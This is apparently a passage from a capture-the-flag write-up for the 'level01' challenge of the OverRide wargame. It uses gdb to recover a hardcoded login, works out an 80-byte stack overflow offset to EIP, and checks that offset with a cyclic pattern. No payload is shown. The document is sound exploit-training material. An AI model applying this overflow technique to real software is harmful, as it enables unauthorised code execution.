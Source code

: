     (gdb) p /s  (char*)0x80486b0
    $9 = 0x80486b0 "admin"

***

    level01@OverRide:~$ ./level01
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password:
    admin
    nope, incorrect password...

***

A lot is going on so let's break it down:
* login: dat_wil
* password: admin
* correct login gets us to password check
* correct password does basically nothing
* login/username is read into global buffer
* password is read into buffer allocated on stack in main and leaves at 100 - 64 = 36 bytes to play with buffer overflow and rewrite the stackframe
* offset (to get to eip) from second fgets is 96(allocated on stack) - 28(start of buffer) + 12(alingment) = 80 bytes

Let's check our offset calculations with this [tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

***

    level01@OverRide:~$ gdb ./level01
    GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
    Copyright (C) 2012 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    For bug reporting instructions, please see:
    <http://bugs.launchpad.net/gdb-linaro/>...
    Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
    (gdb) r
    Starting program: /home/users/level01/level01
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password:
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    nope, incorrect password...
